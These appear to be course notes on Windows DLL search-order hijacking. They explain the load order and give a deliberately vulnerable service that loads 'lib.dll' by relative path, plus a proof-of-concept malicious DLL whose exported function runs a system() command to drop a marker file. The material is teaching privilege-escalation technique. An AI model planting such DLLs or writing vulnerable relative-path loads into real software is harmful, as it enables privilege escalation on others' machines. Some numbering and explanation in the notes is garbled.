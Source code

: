 ## Hijacking DLL Search Order

If you do not specify a full path when loading a DLL, when Microsoft tried to find a DLL, a specific search order is followed.

- Absolute Path
```sh
hinstLib = LoadLibrary(TEXT("C:\\Users\\Quickemu\\Downloads\\lib.dll"));
```

- Relative Path
```sh
hinstLib = LoadLibrary(TEXT("lib.dll"));
```

The specific search order is the following one

1. The folder specified by `lpFileName`
2. . System folder, get using `GetSystemDirectory()`
3. . 16-bit system folder
4. . Windows directory, get using `GetWindowsDirectory()`
5. . Current directory
6. . Directories listed in the `PATH`

In this case we have a problem when the attacker is able to introduce a malicious DLL in a position that has priority over the regular DLL. For example:

- The regular DLL is found within the Windows Directory (C:\Windows)
- The malicious DLL is found within the System Folder (C:\Windows\System32)

Updated `simpleService.c` code:
```c
// Inspired from:
// - https://gist.github.com/mmmunk/0b0adbccb6b91e778e3a6c6b47908c9c
//
// Compile:
// - x86_64-w64-mingw32-gcc -mwindows -municode -O2 -s -o simpleService.exe simpleService.c
//
// Create service:
// - sc.exe create SimpleService binPath= "C:\Users\Quickemu\Downloads\simpleService.exe"
//
// Query service:
// - 
//
// Delete the service:
// - sc.exe delete SimpleService

#include <windows.h>
#include <stdio.h>

#define SERVICE_NAME L"simpleService"

SERVICE_STATUS ServiceStatus;
SERVICE_STATUS_HANDLE ServiceStatusHandle;

char TempFile[256] = { 0 };

typedef int (*AddNumbersFunc)(int, int);
HINSTANCE hinstLib;
AddNumbersFunc addNumbers;

void WriteToLog(char *s) {
  FILE *log;
  log = fopen(TempFile, "a+");
  if (log == NULL) { return; }  
  fprintf(log, "%s\n", s);
  fclose(log);
  addNumbers(5, 10);
}

void ServiceControlHandler(DWORD control) {
  switch (control) {
  case SERVICE_CONTROL_PAUSE:
    ServiceStatus.dwCurrentState = SERVICE_PAUSED;
    break;
  case SERVICE_CONTROL_CONTINUE:
    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    break;
  case SERVICE_CONTROL_STOP:
  case SERVICE_CONTROL_SHUTDOWN:
    ServiceStatus.dwCurrentState = SERVICE_STOPPED;
    break;
  }
  SetServiceStatus(ServiceStatusHandle, &ServiceStatus);
}

void LoadDLL() {
  hinstLib = LoadLibrary(TEXT("lib.dll"));
  if (hinstLib == NULL) {
    printf("Could not load the DLL\n");
    return;
  }

  // Get function pointer
  addNumbers = (AddNumbersFunc)GetProcAddress(hinstLib, "add_numbers");
  if (addNumbers == NULL) {
    printf("Could not find the function in the DLL\n");
    FreeLibrary(hinstLib);
    return;
  }  
}

void ServiceMain(DWORD argc, LPWSTR *argv) {
  // Setup service
  ServiceStatus.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
  ServiceStatus.dwCurrentState = SERVICE_RUNNING;
  ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_PAUSE_CONTINUE | SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  ServiceStatus.dwWin32ExitCode = NO_ERROR ;
  ServiceStatus.dwServiceSpecificExitCode = 0;
  ServiceStatus.dwCheckPoint = 0;
  ServiceStatus.dwWaitHint = 0;

  ServiceStatusHandle = RegisterServiceCtrlHandler(SERVICE_NAME, ServiceControlHandler);
  if (ServiceStatusHandle == 0) {
    return;
  }

  if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0) {
    return;
  }

  // Init service
  GetTempPathA(sizeof TempFile, TempFile);
  strcat(TempFile, "TempLogger.log");

  // NEW: load DLL
  LoadDLL();

  // Service main loop
  while (ServiceStatus.dwCurrentState != SERVICE_STOPPED) {
    Sleep(5000);
    if (ServiceStatus.dwCurrentState == SERVICE_RUNNING) {
      WriteToLog("Please Subscribe!!");
    }
  }

  // NEW: Free the DLL module
  BOOL fFreeResult = FreeLibrary(hinstLib);  
}

// ------------------------------------------------------

int wWinMain(HINSTANCE instance, HINSTANCE previnstance, LPWSTR cmdline, int showcmd) {
  SERVICE_TABLE_ENTRY StartTable[] = {{SERVICE_NAME, ServiceMain}, {NULL, NULL}};
  StartServiceCtrlDispatcher(StartTable);
  return 0;
}
```

`lib.c`
```c
#include <windows.h>
#include <stdlib.h>

__declspec(dllexport) int add_numbers(int a, int b) {
  system("echo 'hacks' > C:\\Users\\Quickemu\\Downloads\\HACKED");  
  return a + b;
}
```

---
## References

ListDLLs is a utility that reports the DLLs loaded into processes: https://learn.microsoft.com/en-us/sysinternals/downloads/listdlls

Compiling a DLL using MingGW: https://malicious.link/posts/2020/compiling-a-dll-using-mingw/

Dynamic-link library search order: https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order

Course material: https://github.com/LeonardoE95/yt-en/tree/main/src/2024-11-18-windows-privesc/09-dll-hijacking/content/src